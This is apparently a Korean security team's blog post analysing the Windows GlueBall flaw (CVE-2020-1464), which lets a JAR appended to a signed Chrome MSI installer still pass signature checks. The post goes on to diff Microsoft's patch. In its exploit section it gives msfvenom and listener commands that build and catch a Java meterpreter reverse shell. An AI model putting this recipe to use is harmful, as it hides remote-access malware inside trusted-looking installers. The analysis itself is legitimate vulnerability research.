







안녕하세요! 글 쓰는 걸 미루고 미루다 idioth 팀장님의 구박에 겨우겨우 첫 글을 쓰는 L0ch입니다. 

~~악덕 상사 우우 길 가다 레고 블록이나 밟아라~~ 

오늘은 Windows의 취약점 하나를 들고 왔는데요, 함께 보실까요? 


# 개요

GlueBall이라고 불리는 CVE-2020-1464는 2018년 9월에 제보되었습니다. 근데 마소 친구들이 패치 안 하고 있다가 2년이 지난 최근 patch tuesday라고 불리는 정기 패치에서 패치가 되었...? 왜 지금 와서???


이상하긴 하지만... 넘어가도록 하고 취약점을 이해하는데 필요한 배경 지식부터 알아보도록 합시다!

# MSI (Microsoft Installer)

Windows 설치 패키지 
→ Windows용 애플리케이션의 설치 및 업데이트를 배포하는 데 사용됩니다.


오늘의 희생양(ㅎㅎ)이 될 우리 크롬 어서 오고. 
크롬도 MSI로 배포되는 것을 알 수 있습니다. malicious 하게 꾸며줄 테니 조금만 기다리라구~

# Code Signing Certificate(코드 서명 인증서)

> **Code Signing Certificate**
> MS가 도입한 실행파일과 스크립트의 디지털 서명 과정으로, 이러한 인증서는 파일이 안전한 파일임을 증명해준다. SmartScreen filter는 인증서에 대한 자체적인 white list DB를 관리해 해당 인증서가 안전한지 아닌지 
> 판단한다. 인증서가 존재하지 않거나 파일이 변조되어 인증서가 유효하지 않으면 실행할 때 경고를 띄워 
> 사용자에게 알린다.



코드 서명 인증서가 도입되면서, 인증서가 확인되지 않은 파일의 무분별한 실행이 줄었습니다. 그러나 여기서 끝나면 섭섭하죠? 유효하지 않은 인증서임에도 인증서 검증을 우회할 수 있는 취약점이 발견되었는데 이것이 오늘 설명할 GlueBall입니다.

# GlueBall : CVE-2020-1464

## Vulnerability

취약점은 MSI 파일의 인증서 검증 과정에서 발생합니다. 

MSI 파일을 실행하면 `msisip.dll`의 `MsiSIPVerifyIndirectData()` 함수에서 파일의 시작 부분이 유효한 MSI 파일인지 검증하고 서명을 확인합니다.



그런데 이때 파일의 사이즈를 검증하지 않아 MSI 파일의 뒤에 임의의 데이터가 추가되어도 유효한 인증서라고 판단하게 되고, 공격자는 이를 이용해 인증서 검증을 우회하고 malicious 파일을 실행하도록 할 수 있습니다.

## JAR(Java Archive)


JAR은 자바 플랫폼 배포를 위한 패키지 파일 포맷입니다. 
특징으로는 zip 포맷으로 빌드되어 자바 런타임에서 로드될 때 파일의 끝에서부터 로드됩니다.

→ 파일 앞에 임의의 데이터가 있어도 정상 실행이 가능합니다.

슬슬 감이 올락 말락 하죠??

## Exploit

앞서 나온 취약점과 JAR 파일의 특성을 조합하면..?

**MSI 파일 끝에 임의 데이터가 와도 유효한 인증서가 되는 취약점 + 파일 앞에 임의의 데이터가 있어도 정상 실행되는 jar**

축하합니다! 익스플로잇 시나리오가 완성되었습니다!

그림으로 정리하면 다음과 같습니다.



만능 메타스플로잇으로 리버스 쉘 malicious 파일을 생성해서 익스를 해볼게요.

msfvenom으로 리버스 쉘을 여는 jar포맷의  malicious 파일을 생성합니다.

```markdown
msfvenom -p java/meterpreter/revserse_https LHOST=[HOST IP] -f jar -o [filename].jar
```


리스너도 미리 열어두겠습니다.

```markdown
handler -p java/meterpreter/reverse_https -H 0.0.0.0 
```



생성된 jar 파일과 크롬 설치 msi 파일을 합칩니다. 이때 꼭 msi파일 뒤에 jar 파일이 오도록 순서를 지켜야 한다는 점!


이제 생성된 exploit.jar 에서 인증서가 유효한지 확인해보면



요렇게 유효한 인증서로 나오는 것을 볼 수 있습니다. 

실행을 해보면 피해 PC에서는 아무 반응도 없지만, 프로세스에서는 자바가 돌아가고 있고


위 사진과 같이 리버스 쉘이 정상적으로 동작하는 걸 볼 수 있습니다!

## Patch diffing

MS는 이에 대한 패치를 내놨는데요, 어떻게 패치를 했는지 패치 이후의 msisip.dll를 구해 비교해보겠습니다.


> 💡주의! 글쓴이의 삽질이 담겨 있습니다.


않이 근데.. 이거 익스하고 글 좀 쓰고 디핑 하려고 보니까 그새 윈도우가 업데이트를 해버렸네..?


아 ** 

- 자동 업데이트 안 끔
- 스냅샷 안 만들어놓음

→ 패치 전의 msisip.dll 못 구함 → ?????????

윈도우 원데이 분석할 땐 자동 업데이트는 꼭 끄도록 해요....... 아니면 스냅샷이라도...

패치 전의 msisip.dll을 어떻게 구하지? 어떻게 구하긴 조진 거지 ㅋㅋ


엿같은 자동 업데이트 덕분에 던질 뻔했지만..^^ 
결국 idioth형 vm에 패치 전 파일이 있어서 그거 구걸해서 디핑 해버렸지요. 팀장님 최고 ~
넘겨주는 대신 리제로 정주행 하라는 협박은 못 들은 걸로 하겠습니다; 



회색 노드는 새로 추가된 코드, 노란색 노드는 변경된 노드입니다.



회색 노드를 보면 `MsiSIPVerifyIndirectData()` 함수에서 `NeedFileSizeVerification()` 과 `VerifyFileSize()` 를 호출하는 코드가 추가된 것을 보아 MSI 파일의 사이즈를 확인하는 코드를 추가해 취약점 패치를 한 것을 알 수 있습니다.


취약점 분석이랑 익스 하는 것보다 디핑 하는데 시간을 훨씬 많이 썼네요...^^ 이  과정을 개선할 여지가 있을 것 같아 다음 글은 디핑과 관련된 연구 주제 일 것 같습니다.  이거 하느라 윈도우 vm만 5개 만든 건 안 비밀 ^.^ 

그럼 다음 글로 돌아올게요 안녕!